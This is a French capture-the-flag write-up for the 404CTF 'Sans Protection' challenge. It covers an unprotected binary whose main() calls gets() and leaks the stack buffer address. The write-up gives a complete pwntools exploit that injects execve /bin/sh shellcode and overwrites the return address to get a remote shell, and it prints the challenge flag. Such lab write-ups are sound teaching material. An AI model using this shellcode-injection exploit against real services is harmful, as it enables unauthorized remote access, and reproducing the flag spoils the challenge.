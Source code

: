 # Sans Protection

> Agent, maintenant que vous avez commencé à faire vos preuves, il est temps de vous envoyer sur des missions plus délicates. Avant cela, nous allons tester vos capacités à vous créer un accès à distance sur une machine faisant tourner un binaire faiblement protégé. Montrez-nous une fois de plus que vous êtes un allié de confiance.
>
> nc challenge.404ctf.fr 31720

## Description

Comme le nom l'indique, le binaire n'a aucune protection comme le montre `checksec`.

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Reversons le binaire avec [Ghidra](https://ghidra-sre.org/).

Les fonctions n'ont pas de nom, mais on peut trouver la fonction `main` comme étant le premier argument de `__libc_start_main` dans la fonction `entry`.

Le code est le suivant:

```c
undefined8 main(void)
{
  char local_48 [64];
  
  setvbuf(stdout,(char *)0x0,2,0);
  puts(&DAT_004006f8);
  printf("Cadeau : %p\n",local_48);
  gets(local_48);
  return 0;
}
```

On nous donne l'adresse du buffer, et on peut utiliser `gets` qui nous autorise à entrer autant de caractères qu'on le souhaite.

## Solution

On peut alors effectuer un buffer overflow en écrivant sur la mémoire après le buffer. On écrit sur l'adresse de retour pour sauter à l'adresse de notre buffer, qui comprendra un shellcode pour exécuter un shell.

Je trouve le shellcode sur [shellstorm](https://shell-storm.org/shellcode/).

```python
from pwn import *

sh = remote("challenge.404ctf.fr", 31720)

sh.recvuntil(b"Cadeau :")
buffer_addr = int(sh.recvline(), 16)

SHELLCODE = b"\x48\x31\xc9\x48\xf7\xe1\x04\x3b\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x52\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"

payload = SHELLCODE + b"a"*(64+8-len(SHELLCODE)) + p64(buffer_addr)
sh.sendline(payload)

sh.interactive()
```

![flag](../images/fragile.png)

Flag : `404CTF{V0U5_3735_Pr37_P0Ur_14_Pr0CH41N3_M15510N}`